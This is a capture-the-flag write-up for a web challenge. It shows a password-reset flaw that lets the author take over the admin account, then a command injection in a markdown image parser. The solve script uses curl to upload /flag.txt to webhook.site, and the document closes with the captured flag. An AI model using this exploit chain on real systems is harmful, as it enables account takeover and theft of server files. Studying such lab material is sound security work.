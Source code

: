 ```yaml
---
created: 2024-12-13T14:12
updated: 2024-12-13T14:57
---
```


After using the app as intended, I think the solution is to reset someone else's password.

And after a bit of looking around this caught my attention.

```js [email-app/routes/index.js]
for (let item of response.data.items) {
    const recipients = item.Raw.To || [];
    if (recipients.some((recipient) => recipient === 'test@email.htb')) {
        mails.push(item);
    }
}
```

What if there are multiple recipients?

```python
url = "http://94.237.58.196:45364/reset-password/request"
response = requests.post(url, json={
    "email": ["test@email.htb", "admin@armaxis.htb"]
})
print(response.text) # User not found.
```

Sadly this didn't work.

And... I just realized that there is no email-token validation.

```js [challenge/routes/index.js]
const reset = await getPasswordReset(token);
if (!reset) return res.status(400).send("Invalid or expired token.");
```

Login Success.

## Command Injection?

There appears to be command injection.

```js [challenge/routes/index.js]
router.post("/weapons/dispatch", authenticate, async (req, res) => {;
  ...
  const { name, price, note, dispatched_to } = req.body;
  ...
    const parsedNote = parseMarkdown(note);
  ...
});
```

```js [challenge/markdown.js]
try {
    const fileContent = execSync(`curl -s ${url}`);
    const base64Content = Buffer.from(fileContent).toString('base64');
    return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
} catch (err) {
    console.error(`Error fetching image from URL ${url}:`, err.message);
    return `<p>Error loading image: ${url}</p>`;
}
```

The regex is simply matching anything that is of the format `![...](...)`, easy injection.

`curl` can be used to upload files via `curl -F "file=@path" url`

So to be elegant, I will not use random bash injection techniques.

## Solve

```python
import regex as re
import requests
s = requests.session()
t1 = "http://94.237.58.196:45364"  # main site
t2 = "http://94.237.58.196:44521"  # the email site

payload = '-F "file=@/flag.txt" https://webhook.site'

s.post(f"{t1}/reset-password/request", json={"email": "test@email.htb"})
token = re.search('Use this token to reset your password: ([0-9a-f]+)', s.get(t2).text).group(1)
s.post(f"{t1}/reset-password", json={"token": token, "newPassword": "password", "email": "admin@armaxis.htb"})

print(s.post(f"{t1}/login", json={"email": "admin@armaxis.htb", "password": "password"}).text)
print(s.post(f"{t1}/weapons/dispatch", json={"name": "hello", "price": 123, "note": f"![]({payload})", "dispatched_to": "admin@armaxis.htb"}).text)
```

```flag
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_93d0b106b05aee3323f0425d988419d8}
```
